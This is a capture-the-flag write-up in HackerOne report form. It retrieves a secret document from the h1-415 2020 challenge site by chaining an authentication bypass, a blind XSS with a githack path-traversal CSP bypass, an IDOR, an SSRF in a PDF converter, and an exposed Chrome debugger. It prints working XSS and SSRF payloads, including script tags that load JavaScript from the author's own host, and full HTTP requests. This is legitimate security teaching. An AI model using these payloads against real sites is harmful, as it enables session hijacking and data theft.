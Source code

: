 # [h1-415 2020] My writeup on how to retrieve the special secret document

## Report Details
- **Report ID**: 776684
- **URL**: https://hackerone.com/reports/776684
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-01-17T00:13:11.584Z
- **Disclosed**: 2020-02-03T22:42:23.673Z

## Reporter
- **Username**: blaklis
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: h1-ctf

## Vulnerability Information
## Summary:
An attacker without any privilege is able to retrieve the special secret document, hosted on the https://h1-415.h1ctf.com website. To do so, multiple steps are required : 

1. The authentication must be bypassed to have a licensed account;
2. The support team portal is vulnerable to a blind XSS,;
3. The CSP rules are bypassable using sort of path traversal to render other javascript files on githack CDN.
4. A direct object reference allow to modify data from every users from the support panel, without filtering of characters.
5. The document converter is vulnerable to SSRF if the user name contains HTML tags.
6. The chrome debugger API is opened, allowing to dump data from the browser used by the document converter.

Here are the steps to finally get this special document !

# Initially

You can register an account on the application. After the registration process, you receive a QRCode which contains two hexadecimal blobs separated by a colon. This QRCode is used in case you forgot your password, and allow to bypass the login process.

The QRCode first blob is simply the username, in hexadecimal ASCII. By removing the second blob and trying to use the QRCode, the error message indicates that it's a code, that is necessary and correctly validated to allow being logged in with this email.

From a simple user without license, fields seems to be well escaped, and the converter seems to works well, without much possibility to exploit anything. Fields (usernames, etc) are correctly filtered; special characters are deleted from those fields.

We can see from the main page that the Jobert's mail address (jobert@mydocz.cosmic) is leaking from the *data-email* attribute of its message.

# Authentication bypass thanks to data filtering

As we saw, data are filtered and special characters are deleted from users information. By creating a user with the jobert@mydocz.cosmic< email, the registration process is successful; however, thanks to the data filtering, the generated QRCode contains the real jobert@mydocz.cosmic email instead of the created one, with a code that also matches well.

By using this QRcode on the https://h1-415.h1ctf.com/recover endpoint, we can now login as Jobert to have a more privileged user, that can use the support endpoint.

We can't change information for this account, and the license seems to be expired, so we can't even use the upload functionality.

# Blind XSS & CSP bypass on the support endpoint

The support endpoint seems to be a chatbot (or a real employee? who knows...), and sending some XSS payloads demonstrates easily that at least the frontend part doesn't sanitize messages at all.

By sending the "quit" message, we're asked to rate the overall communication. If the note is set to the minimum - 1 star - we're notified that an employee will check the discussion to see what happened.

Inputting a XSS payload and then quitting with a bad rating for this discussion, we can trap an employee to make him execute some javascript; however, a Content-Security-Policy rules is in place, containing the following : 

* default-src 'self'; object-src 'none'; script-src 'self' https://raw.githack.com/mattboldt/typed.js/master/lib/; img-src data: * *

It also does not leak the referrer, thanks to the *Referrer-Policy* header set to *strict-origin-when-cross-origin*.

As we can see, we're able to load javascript files from https://raw.githack.com/mattboldt/typed.js/master/lib/ URL, and it's child. I created a new repo on Github, which contains some of my javascript payload. Here is an example, that extracts the current URL to my own server : 

*https://github.com/Blaklis/typed.js/blob/master/lib/yolo.js*

As Githack serves GItHub files directly, as a CDN, and that it treats ..%2f as a traversal, we can simply point to our files using the following URL : 

*https://raw.githack.com/mattboldt/typed.js/master/lib/..%2f..%2f..%2f..%2fBlaklis/typed.js/master/lib//yolo.js*

For the browser, this URL is a child of *https://raw.githack.com/mattboldt/typed.js/master/lib/* and completely respects the CSP rule.

Final payload : <script src="https://raw.githack.com/mattboldt/typed.js/master/lib/..%252f..%252f..%252f..%252fBlaklis/typed.js/master/lib//yolo.js"/>

This leaks a URL that is directly accessible - even unauthenticated - to the support panel for this very own discussion, for example https://h1-415.h1ctf.com/support/review/5529c168769ff7e096bb40cc9438a5295692bb567844c837bb5fae37980612ee

# Direct object reference allows to edit every users' information without filtering

When we're on the support page, we can see a form that allow to change users' information. This form also contains a *user_id* field, which is not checked at all. Consequently, we're able to change every users name through this page.
Also, we can see that there's no filtering on characters on this page, allowing to includes some XSS payload in the name, while it wasn't possible for the public /settings endpoint.

The jobert's account can't be modified, even with this method. We can so create an account, and then edit it through this way to have some forbidden characters in its name.

A payload example, considering we own the user 16 : 

```
POST /support/review/85c8e222848012b567fed595a6bdcb3b57ce6bce4716d132e8361536fcc29031 HTTP/1.1
[...]
Cookie: _csrf_token=312edf8cc51423f130df5a09c958c4855eff90c7; session=.eJwli8sOgjAQRb_FWRPSp5au-Ah3xpA6zCiBFkPrghj_3RpXJ-fk3jcMmDceyjpTAg9aKhrZIVpplGapxcg2iA4769A4a4m5E3iCBvARCvjLtQGKYVrq-baEeZlym6Ztr-zvv97iGuv6lWkbyv4k8PpvKcQqcKZcpNLGHg_w-QKRNi0N.XiDmKA.o5lphYOx41pDSbeAm37D7wA9grg

name=<script src="http://blakl.is/pwn.js"/>&user_id=16&_csrf_token=312edf8cc51423f130df5a09c958c4855eff90c7
```

# SSRF in document conversion

The document converter allow to upload images to get PDF as output. The PDF also contains the owner's name, and is vulnerable to a XSS when being interpreted by the converter. This allows to make some redirect using a <script>document.location.href='//website'</script> payload, for example. It also interprets iframe, which allow to inspects which ports are opened locally easily.

I saw that ~300 iframes in the same document is possible without having a timeout from the converter. This allow to create a lot of iframes to localhost, with different ports, to see if it outputs something. Multiple ports have been found open, and notably : 

- 80
- 443
- 3000
- 9222
- 13398

The 9222 port responds with a "Inspectable web contents" message, which corresponds to the debugger API from Chrome, which is a pretty interesting target.

Here is an example payload that sets the payload in the name of the user 16 : 

``
POST /support/review/85c8e222848012b567fed595a6bdcb3b57ce6bce4716d132e8361536fcc29031 HTTP/1.1
[...]
Cookie: _csrf_token=312edf8cc51423f130df5a09c958c4855eff90c7; session=.eJwli8sOgjAQRb_FWRPSp5au-Ah3xpA6zCiBFkPrghj_3RpXJ-fk3jcMmDceyjpTAg9aKhrZIVpplGapxcg2iA4769A4a4m5E3iCBvARCvjLtQGKYVrq-baEeZlym6Ztr-zvv97iGuv6lWkbyv4k8PpvKcQqcKZcpNLGHg_w-QKRNi0N.XiDmKA.o5lphYOx41pDSbeAm37D7wA9grg

name=<iframe src="http://localhost:9222"/>&user_id=16&_csrf_token=312edf8cc51423f130df5a09c958c4855eff90c7
```

The user 16 is now able to make a document conversion. The output document will contains an iframe with data from http://localhost:9222.

# Chrome debugger API opened

The Chrome debugger API is enabled and can be accessed through the SSRF from the previous step. There are both a Websocket API (complete) and a JSON API (limited) that allows to retrieve data from this interface.

By using the JSON api, hitting the */json/list* endpoint, we can see every tabs that are currently opened, with associated URLs and titles. Here is a sample of data returned : 

```
[ {   "description": "",   "devtoolsFrontendUrl": "/devtools/inspector.html?ws=localhost:9222/devtools/page/06B5383E01A67809265501A45699022A",   "id": "06B5383E01A67809265501A45699022A",   "title": "My Docz Converter",   "type": "page",   "url":"http://localhost:3000/converter/de5be989b6ba5bf281074073611b12a2cef1fab3fb24f99decc6be773fce5927.png?user_name=Jobert%3Cscript%3Edocument.location.href%3D%27http%3A//localhost%3A9222/json%27%3C/script%3E",   "webSocketDebuggerUrl": "ws://localhost:9222/devtools/page/06B5383E01A67809265501A45699022A"}, {   "description": "",   "devtoolsFrontendUrl": "/devtools/inspector.html?ws=localhost:9222/devtools/page/40B45AD7E01052E5E79BE278D1C6F03C",   "id": "40B45AD7E01052E5E79BE278D1C6F03C",   "title": "My Docz Converter",   "type": "page",   "url": "http://localhost:3000/login?secret_document=0d0a2d2a3b87c44ed13e0cbfc863ad4322c7913735218310e3d9ebe37e6a84ab.pdf",   "webSocketDebuggerUrl": "ws://localhost:9222/devtools/page/40B45AD7E01052E5E79BE278D1C6F03C"}, {   "description": "",   "devtoolsFrontendUrl": "/devtools/inspector.html?ws=localhost:9222/devtools/page/69206B536A6D44F4950C2BE822522BF8",   "id": "69206B536A6D44F4950C2BE822522BF8",   "title": "about:blank",   "type": "page",   "url": "about:blank",   "webSocketDebuggerUrl": "ws://localhost:9222/devtools/page/69206B536A6D44F4950C2BE822522BF8"}, {   "description": "",   "devtoolsFrontendUrl": "/devtools/inspector.html?ws=localhost:9222/devtools/page/37FC54275A3B9966EE6307427568FF34",   "id": "37FC54275A3B9966EE6307427568FF34",   "title": "about:blank",   "type": "page",   "url": "about:blank",   "webSocketDebuggerUrl": "ws://localhost:9222/devtools/page/37FC54275A3B9966EE6307427568FF34"}, {   "description": "",   "devtoolsFrontendUrl": "/devtools/inspector.html?ws=localhost:9222/devtools/page/D06A13E7032D841AD5B56B06F055B4B9",   "id": "D06A13E7032D841AD5B56B06F055B4B9",   "title": "about:blank",   "type": "page",   "url": "about:blank",   "webSocketDebuggerUrl": "ws://localhost:9222/devtools/page/D06A13E7032D841AD5B56B06F055B4B9"} ]
```

As we can see, there is a *http://localhost:3000/login?secret_document=0d0a2d2a3b87c44ed13e0cbfc863ad4322c7913735218310e3d9ebe37e6a84ab.pdf* tab that is opened. By retrieving the secret document name, and trying to access it as a normal document, we can see the secret document here : 

*https://h1-415.h1ctf.com/documents/0d0a2d2a3b87c44ed13e0cbfc863ad4322c7913735218310e3d9ebe37e6a84ab.pdf*

The flag is *h1ctf{y3s_1m_c0sm1c_n0w}*


This was a nice challenge, thank you for that!

Best regards,
Blaklis

## Impact

Attackers are able to access the very secret document from Jobert!

## Attachments
No attachments
